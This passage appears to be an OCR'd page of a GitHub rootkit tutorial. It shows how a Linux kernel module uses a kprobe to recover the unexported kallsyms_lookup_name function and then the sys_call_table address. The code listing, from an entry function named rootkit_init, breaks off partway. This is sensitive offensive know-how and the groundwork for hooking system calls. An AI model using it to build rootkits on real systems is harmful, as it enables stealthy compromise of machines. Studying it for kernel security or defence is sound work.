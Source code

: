         ```
        As kallsyms function is not exported anymore by default, we are creating our own custom made function to get the address of the original `kallsyms_lookup_name`.
        ```c
	      /* // Lookup the address for a symbol. Returns 0 if not found.
	       * unsigned long kallsyms_lookup_name(const char *name);
	       */
	      typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

	      kallsyms_lookup_name_t kallsyms_lookup_name;
        ```
        Function, `register_kprobe()` specifies where the probe is to be inserted and what handler is to be called when the probe is hit.
        ```c
        register_kprobe(&kp);
        ```
        To get the address of `kallsyms_lookup_name` symbol. As soon as storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now, so unregistering it.
        ```c
        kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;

        unregister_kprobe(&kp);
        ```
        As we have got the address of `kallsyms_lookup_name` symbol, now we can use this to get the address of `syscall table`.
        ```c
        syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
        ```
        4. So the full code:
        ```c
        #include <linux/init.h>		/* Needed for the macros */
        #include <linux/module.h>	/* Needed by all modules */
        #include <linux/kernel.h>	/* Needed for printing log level messages */
        #include <linux/kprobes.h>

        // Setting which dynamic kernel symbol to find
          static struct kprobe kp = {
                    .symbol_name = "kallsyms_lookup_name"
          };

          // =================== Entry Function ====================

        static int __init rootkit_init(void)
        {
	        // For storing address of sys_call_table
	        unsigned long *syscall_table;
	
	        // Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
	
	        /* // Lookup the address for a symbol. Returns 0 if not found.
	         * unsigned long kallsyms_lookup_name(const char *name);
	         */
	        typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
